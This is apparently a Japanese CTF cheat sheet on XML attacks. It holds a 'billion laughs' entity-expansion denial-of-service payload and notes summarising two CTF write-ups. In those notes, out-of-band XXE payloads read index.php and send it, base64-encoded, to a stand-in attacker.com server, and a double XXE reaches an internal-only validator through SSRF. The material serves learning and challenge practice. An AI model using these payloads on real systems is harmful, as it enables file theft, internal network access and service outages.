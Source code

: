 ```txt
```
### DOS
```txt
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
# writeup
## OOB XXE (obtain index.php / indentify webshell's fullpath)
https://github.com/shvetsovalex/ctf/tree/master/2018/VolgaCTF-quals/Shop%20quest   
- **entrypoint**   
製品情報をXML形式で保存するのでXXEに脆弱かも？と考える。   
- **概要**   
webshellはアップできていてもそのフルパスがわからない。その時に`index.php`をOOB XXEで閲覧してソースを読んでファイルパスを特定する。   
- **Payload**   
```txt
// 多分これをPOSTするかんじ
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://attacker.com/oob.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

// oob.xml   (これは攻撃者サーバーにセット)
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=index.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://attacker.com/?%data;'>">
```
## OOB XXE (SSRF / 二重XXE)
https://qiita.com/no1zy_sec/items/03b8f335e84995fec3e3   
- **entrypoint**   
問題文が`xmlvalidator`だからXXEを疑う？   
- **概要**   
ローカルネットワークからしかアクセスできないので別のXMLの問題のページからXXEでページを読み込む(ソースではない)   
`loadxml`に`$_REQUEST['xml']`の内容が入るのでまたXXE脆弱。応答を返さないのでOOB XXEで攻撃者サーバーにアクセスさせる。      
- **Payload**   
```txt
// 別の問題ページから送信する内容　（2重にXXEしてる）
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar SYSTEM
  "php://filter/convert.base64-encode/resource=http://xmlvalidator/?xml=%3C%21DOCTYPE+root+%5B%3C%21ELEMENT+root+ANY+%3E%3C%21ENTITY+%25+xxe+SYSTEM+%22https%3A%2F%2Fexample.com%2Fxxe.dtd%22%3E%25xxe%3B%5D%3E%3Croot%3E%26startme%3B%3Croot%3E">
```